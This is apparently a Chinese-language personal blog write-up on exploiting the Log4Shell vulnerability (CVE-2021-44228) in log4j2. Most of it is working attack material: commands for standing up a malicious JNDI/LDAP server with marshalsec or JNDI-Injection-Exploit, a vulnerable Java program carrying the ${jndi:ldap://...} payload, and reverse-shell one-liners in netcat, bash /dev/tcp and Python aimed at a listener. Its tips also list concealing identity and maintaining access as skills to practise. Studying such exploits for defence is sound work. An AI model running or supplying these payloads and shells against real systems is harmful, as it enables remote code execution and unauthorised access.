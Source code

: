 ```yaml
---
title: CVE-2021-44228
date: 2021-12-13 21:27:06
tags:
---
```



漏洞详情
-----
### 受影响的版本
all log4j-core versions >=2.0-beta9 and <=2.14.1
### 基本原理
由于对应版本的log4j2中，打印日志时会通过JNDI请求LDAP数据来构造更精美的日志输出，而如果用户输入的内容包含${jndi:ldap://host:port/exp}，则会被log4j2获取并执行，只要运行一个恶意的JNDI服务器，在含有该漏洞的地方注入这段代码，那么将会以运行该Java程序的用户权限执行该指令（RCE）
### exploit
#### 构建后端恶意JDNI服务（方法1）：
1. 编译Exploit.java为字节码，同目录下使用python3的http服务器，这一步是为了让受影响的服务器远程获取我们需要执行的恶意代码
```
javac Exploit.java
python3 -m http.server 8888
```
2. 使用marshalsec来创建一个恶意的JNDI服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

#### 构建后端恶意JDNI服务（方法2）：[JNDI Injection Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned"
```

#### 简单构造存在漏洞的java+log4j2环境
```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        //高版本的jdk默认trustURLCodebase为false，因此不能成功利用JNDI注入
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```
运行即可触发漏洞，受害者把本该打印的文本内容作为JNDI解析，获取远程服务器的Java字节码，并在本地执行（可以直接反弹shell）

### Tips
+ 本地exp没有问题，远程exp有问题（尝试各个网络位置，各种jdk版本，最后换了一个恶意JNDI完事）
+ 从尝试echo hello world没反应到尝试touch /tmp/pwned再到反弹shell
+ 使用JNDI injection exploit来搭建恶意JNDI服务器来利用漏洞，不要用上面github仓库那个方法，会遇到超多问题（例如：java版本不对，没法远程利用，reference class name: foo，或者jdk1.8需要maven构建，又是一堆问题，不要尝试，直接使用下面这个repo来exp）[JNDI Injection Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
+ 命令会被作为参数传入Runtime.getRuntime().exec()，所以需要确保命令传入exec()方法可执行。（使用bash -c "echo hello > /tmp/pwned"等）

反弹shell
-----
### 攻击方
```
nc -vnl 2222
```

### 受害者

#### Netcat
```
rm /tmp/f && mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 2222 > /tmp/f
```
或者
```
nc 127.0.0.1 2222 -e /bin/bash
```
#### Bash
```
bash -c 'bash -i >& /dev/tcp/127.0.0.1/2222 0>&1'
```
#### Python
+ 源代码
```
import os, socket, subprocess
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2222))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p=subprocess.call(['/bin/bash', '-i'])
```
+ 命令行直接执行
```
python -c \"import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash', '-i'])\"
```

工具总结
-----
+ Java, JDK：高版本可能存在问题，尽量使用低版本（***插入图片***）
+ maven：使用pom.xml构建Java工程（***插入图片***）
+ log4j：日志管理工具
+ dnslog：接受带出来的访问信息
+ make：精简测试
+ tmux：分屏同时测试
+ github：创建repo来记录

技术总结
-----
### 漏洞的生命周期
+ 漏洞一直存在（无人发现）
+ 黑客发现0day自己保存
+ 漏洞公开，exp简单，伤害性大，影响范围极广（性价比高，范围广）
+ 缓解方法出现
+ 补丁出现，大家开始修复漏洞
+ 漏洞影响范围降低，但仍有漏网之鱼

### Log4Shell时间线
|日期|事件|
|----|----|
|2021-12-09|曝出漏洞，掀起话题|
|2021-12-10|开始出现大量exp|
|2021-12-11|bbs elastic search，熬夜本地exp成功（远程exp不行）|
|2021-12-12|还是不行，找到其他恶意JNDI，继续尝试|
|2021-12-13|远程exp成功，反弹shell成功（但不能任意反弹shell）|

### 一些知名漏洞
|Name|service|CVE|
|----|-------|---|
|Heartbleed|openssl|CVE-2014-0160|
|Eternalblue|smb|CVE-2017-0144(MS17-010)|
|BlueKeep|rdp|CVE-2019-0708|
|Log4Shell|log4j2|CVE-2021-44228|

### Tips
+ 今后要重点加强的内容，不能机会来了才磨剑（隐匿身份、维持访问、反弹shell、尝试并分类总结各种漏洞）
+ 测试基本功能后，再深入（如dnslog能不能用，）
+ 明确攻击方和防守方的边界
+ 写博客所感
	+ 初学者使用vim时千万不要同时开着中文输入法，会彻底毁掉你对vim的好感！！！
	+ markdown的每个段落后需要有个分段，不然格式会乱

参考资源
-----
+ [https://github.com/whitel/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/whitel/CVE-2021-44228-Apache-Log4j-Rce)
+ [https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce0](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce0)
+ [Github Stargazer](https://starchart.cc/)
+ [maven plugin error](https://stackoverflow.com/questions/32368758/log4j2-java-lang-noclassdeffounderror-org-apache-logging-log4j-logmanager)
